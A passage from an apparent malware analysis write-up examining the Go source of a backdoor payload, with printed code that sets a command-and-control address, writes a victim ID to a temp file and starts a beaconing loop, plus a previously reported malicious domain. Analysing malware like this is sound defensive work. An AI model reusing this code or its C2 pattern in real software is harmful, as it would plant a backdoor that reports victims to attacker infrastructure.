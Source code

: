We can start reviewing the Golang payload from the app.go source file. This file contains two functions.

`RunDll`: In our case it does not run any DLLs, it simply sets the C2 url (http://216.74.123\[.\]191:8080), it checks if there is another instance of the malware running, it generates a random id, which is written to disk in a `.host` file in the temp folder, and it starts the main execution loop in a function called `StartMainLoop`.  
`generateId`: This generates a random id for each victim.

```golang
func generateId() string {
	hostfile := filepath.Join(os.TempDir(), config.MACHINEID_FILE_NAME)
	data, err := os.ReadFile(hostfile)

	if err == nil {
		return string(data)
	}

	// initialize id
	data = make([]byte, 4)
	rand.Read(data)

	id := hex.EncodeToString(data)

	os.WriteFile(hostfile, []byte(id), 0o644)

	return id
}


func RunDLL() {
	print("================= RunDLL =================\n")
	instance.Delay()
	instance.CheckDupInstance()
	instance.RegisterInstance()

	//url := "https://api.jz-aws[.]info/public/images/" 
	 url := "http://216.74.123[.]191:8080"
	// url := "http://127.0.0.1:8080"
	id := generateId()  
	fmt.Printf("UUID: %s, URL: %s\n", id, url)

	core.StartMainLoop(id, url)
}

//export DllRegisterServer
// func DllRegisterServer() {
// 	RunDLL()
// }

// main
func main() {

	RunDLL()
}
```
Of interest, we can see various code artifacts that are commented out, including a domain (https://api.jz-aws\[.\]info/public/images/) which was previously reported by [Sonatype](https://www.sonatype.com/blog/cors-parser-npm-package-hides-cross-platform-backdoor-in-png-files) in the context of a trojanized npm package.
